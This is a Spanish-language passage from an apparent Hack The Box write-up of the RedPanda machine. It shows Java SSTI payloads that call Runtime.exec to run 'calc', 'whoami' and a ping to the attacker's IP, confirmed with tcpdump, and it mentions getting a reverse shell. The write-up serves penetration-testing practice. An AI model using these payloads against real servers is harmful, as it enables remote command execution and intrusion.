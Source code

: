 Sería este payload:

{% raw %}
```java
${T(java.lang.Runtime).getRuntime().exec('calc')}
```
{% endraw %}

Pues probemos con todas las sintaxis que vimos antes a ejecutar, por ejemplo el comando `whoami`:

{% raw %}
```java
#{T(java.lang.Runtime).getRuntime().exec('whoami')}
```
{% endraw %}

Pero obtenemos:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/redpanda/481web8080_search_hashtagRCEwhoami_weirdSSTI.png" style="width: 100%;"/>

Testeando con las demás sintaxis cambia el output al probar `*`:

{% raw %}
```java
*{T(java.lang.Runtime).getRuntime().exec('whoami')}
```
{% endraw %}

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/redpanda/481web8080_search_asteriskRCEwhoami_SSTIdone.png" style="width: 100%;"/>

Epa, algo se ha ejecutado, solo que el output no está siendo mostrado, ya que parece ser enviado como tarea en segundo plano, entonces hagamos que la máquina realice un `ping` contra nuestra IP, así sabremos si realmente se están ejecutando comandos.

{% raw %}
```java
*{T(java.lang.Runtime).getRuntime().exec('ping 10.10.14.146')}
```
{% endraw %}

Pero para saber que lo hace debemos ponernos en escucha por la interfaz de esa IP (VPN de HTB, casi siempre `tun0` (con **ifconfig** descubres que interfaz tiene)) e interceptar el paquete enviado (**ICMP**, el comando *ping* trabaja con esas peticiones):

```bash
tcpdump -i tun0 icmp -v
```

Ahora sí, enviamos el payload yyyyyyy en nuestro listener:

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/redpanda/481bash_tcpdump_SSTItoRCE_confirmedWITHping.png" style="width: 100%;"/>

Ahí vemos como la IP **10.10.11.170** (la máquina víctima) envió paquetes a la dirección IP **10.10.14.146** (nuestra máquina), así que tenemos ejecución remota de comandoooooos! Hagamos una reverse shell (:

...

> Despues de varias vueltas y lidiar con problemas (parece que el pipe (`|`) a veces se buggea o algo pasa en el backend) logramos una manera de hacer que la máquina nos envie una shell.
